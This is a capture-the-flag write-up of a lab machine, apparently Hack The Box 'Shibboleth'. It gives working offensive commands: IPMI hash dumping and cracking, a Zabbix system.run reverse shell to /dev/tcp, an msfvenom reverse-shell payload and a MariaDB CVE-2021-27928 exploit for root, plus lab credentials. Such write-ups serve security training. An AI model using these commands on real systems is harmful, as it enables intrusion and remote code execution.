 > Author: **[knightmare][author-profile]**

## Discovery

### Port Scanning

TCP:

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: FlexStart Bootstrap Template - Index
```

UDP

```bash
PORT    STATE SERVICE
623/udp open  asf-rmcp
```

### Enumeration

Virtual hosts:

```bash
ffuf -u http://10.10.11.124/ -H 'Host: FUZZ.shibboleth.htb' -w /usr/share/wordlists/discovery/subdomains-top1million-20000.txt -mc 200
# monitor                 [Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 64ms]
# monitoring              [Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 68ms]
# zabbix                  [Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 78ms]
```

Directories:

```bash
```

## Admin on the Web Console

```bash
msfconsole
# use auxiliary/scanner/ipmi/ipmi_cipher_zero
# set rhosts monitor.shibboleth.htb
# run
# [*] Sending IPMI requests to 10.10.11.124->10.10.11.124 (1 hosts)
# [+] 10.10.11.124:623 - IPMI - VULNERABLE: Accepted a session open request for cipher zero
# [*] Scanned 1 of 1 hosts (100% complete)
# [*] Auxiliary module execution completed
# search ipmi
# use auxiliary/scanner/ipmi/ipmi_dumphashes
# set rhosts monitor.shibboleth.htb
# run
# [+] 10.10.11.124:623 - IPMI - Hash found: Administrator:4996629102020000803e4869896a2d90db7a2bed305d9e3a8cea0a0dcbaec65e5ae344357c775d50a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:28a9b3482c123d3a6e4bdb50bc802433a31ae238
```

The IPMI service is vulnerable to authentication bypass and the admin hash
can be extracted. Then cracked:

```bash
hashcat --help | grep -ia ipmi
   # 7300 | IPMI2 RAKP HMAC-SHA1
hashcat -a 0 -m 7300 credentials/admin.hash /usr/share/wordlists/passwords/rockyou.txt 
```

> Administrator ilovepumkinpie1

It looks like a sysadmin interface: it has system logs, network monitoring,
network topology, application monitoring, etc.

## System "zabbix"

And it can run system commands! Like a native reverse shell, through the
creation of "items". There's a "system.run" key

```
system.run[/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.10/9999 0>&1',nowait]
```

Then it can be run with "Test => Get value and test".

```bash
id
# uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
```

## Pivoting to System "ipmi-svc"

The usual:

```bash
which python3
# /usr/bin/python3
cat /etc/passwd | grep -avi nologin
# root:x:0:0:root:/root:/bin/bash
# sync:x:4:65534:sync:/bin:/bin/sync
# tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
# pollinate:x:109:1::/var/cache/pollinate:/bin/false
# ipmi-svc:x:1000:1000:ipmi-svc,,,:/home/ipmi-svc:/bin/bash
# Debian-snmp:x:111:119::/var/lib/snmp:/bin/false
# mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty rows 56 columns 135
alias ls='ls -lah --color --group-directories-first'
```

## System Root

The MySQL service is running as root:

```bash
ps aux | grep -ia mysql
# root        1224  0.0  0.0   2608  1820 ?        S    12:26   0:00 /bin/sh /usr/bin/mysqld_safe
```

Most likely the DB password is somewhere in the site config:

```bash
grep -v "^[#;]" /etc/zabbix/zabbix_server.conf | grep -v "^$"
# LogFile=/var/log/zabbix/zabbix_server.log
# LogFileSize=0
# PidFile=/run/zabbix/zabbix_server.pid
# SocketDir=/run/zabbix
# DBName=zabbix
# DBUser=zabbix
# DBPassword=bloooarskybluh
# SNMPTrapperFile=/var/log/snmptrap/snmptrap.log
# Timeout=4
# AlertScriptsPath=/usr/lib/zabbix/alertscripts
# ExternalScripts=/usr/lib/zabbix/externalscripts
# FpingLocation=/usr/bin/fping
# Fping6Location=/usr/bin/fping6
# LogSlowQueries=3000
# StatsAllowedIP=127.0.0.1
mysql -D'zabbix' -u'zabbix' -p'bloooarskybluh' -e'select version();'
# +----------------------------------+
# | version()                        |
# +----------------------------------+
# | 10.3.25-MariaDB-0ubuntu0.20.04.1 |
# +----------------------------------+
```

The DB contains other hashes, most likely useless. On the other hand this
version of MariaDB is [vulnerable][mariadb-cve]. It will trigger the
following payload:

```bash
msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f elf-so -o cve.so
```

When setting a global variable to its path:

```bash
mysql -h 127.0.0.1 -D zabbix -u zabbix -p'bloooarskybluh' \
    -e'SET GLOBAL wsrep_provider="/tmp/cve.so";'
```

[author-profile]: https://app.hackthebox.com/users/8930

[ipmi-auth-bypass]: https://book.hacktricks.xyz/pentesting/623-udp-ipmi#vulnerability-ipmi-authentication-bypass-via-cipher-0
[mariadb-cve]: https://github.com/Al1ex/CVE-2021-27928
